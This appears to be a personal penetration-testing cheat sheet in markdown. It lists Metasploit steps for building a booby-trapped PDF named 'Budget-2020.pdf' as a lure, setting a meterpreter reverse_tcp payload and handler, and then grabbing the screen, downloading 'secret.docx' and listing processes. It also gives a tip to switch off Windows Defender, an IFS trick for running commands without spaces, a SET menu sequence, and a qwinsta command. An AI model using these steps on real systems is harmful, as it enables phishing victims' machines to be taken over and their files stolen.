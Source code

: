  Misc exploit

Command execution without space:

    IFS=_;command='ls_-l';$command

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:

    use exploit/windows/fileformat/adobe_libtiff 
    set FILENAME Budget-2020.pdf
    set PAYlOAD windows/meterpreter/reverse_tcp
    set LHOST 172.17.0.2
    exploit 
[COPY OVER THE PDF FILE]

    use exploit/multi/handler 
	set PAYlOAD windows/meterpreter/reverse_tcp
    set LHOST 172.17.0.2
    exploit

Capture screen:

    use espia
    screengrab


Download a file:

    download secret.docx

Show processes:

	ps



# Exploit settolkit example
`
3
1
13
2
2
`

# Hashcat


# Windows things

Checked logged in users:

    qwinsta /server:1.1.1.1



# Useful tools

## XSS

https://xsshunter.com/

## SSL/TLS config guide

https://mozilla.github.io/server-side-tls/ssl-config-generator/

